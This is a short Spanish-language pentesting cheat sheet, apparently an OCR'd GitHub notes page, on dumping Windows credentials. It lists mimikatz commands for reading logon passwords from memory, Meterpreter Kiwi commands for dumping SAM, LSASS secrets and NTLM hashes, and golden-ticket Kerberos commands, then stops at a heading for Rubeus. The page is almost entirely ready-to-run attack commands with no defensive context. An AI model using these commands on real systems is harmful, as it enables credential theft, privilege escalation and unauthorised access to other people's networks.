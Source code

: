 Muchos sistemas Windows (si están configurados así) almacenan las contraseñas de inicio de sesión en la memoria:

```
mimikatz # sekurlsa::logonpasswords
```

* Normalmente requiere de administrador
* Si estamos en una sesión con evil-winrm, es posible que tengamos que poner la palabra "exit" al final para que se ejecute todo el comando

```
C:\temp .\mimikatz.exe "privilege::debug" "exit"
```



## Kiwi

Podemos usar Mimikatz o si tenemos una sesión meterpreter, podemos usar Kiwi. Sin embargo, necesita privilegios NT-Authority para ejecutar la extensión Kiwi.

```
meterpreter> load kiwi
```

Para volcar todos los hashes:

```
meterpreter> creds_all
```

Para volcar la caché de la base de datos SAM o del proceso LSASS:

```
meterpreter> lsa_dump_sam
```

Buscar contraseñas en texto plano:

```
meterpreter> lsa_dump_secrets
```

Para buscar hashes NTLM y generar tickets:

```
golden_ticket_create
kerberos_ticket_list
kerberos_ticket_purge
kerberos_ticket_use
```

Recopilar hash NT de shell meterpreter:

```
meterpreter> hashdump
```


# Rubeus
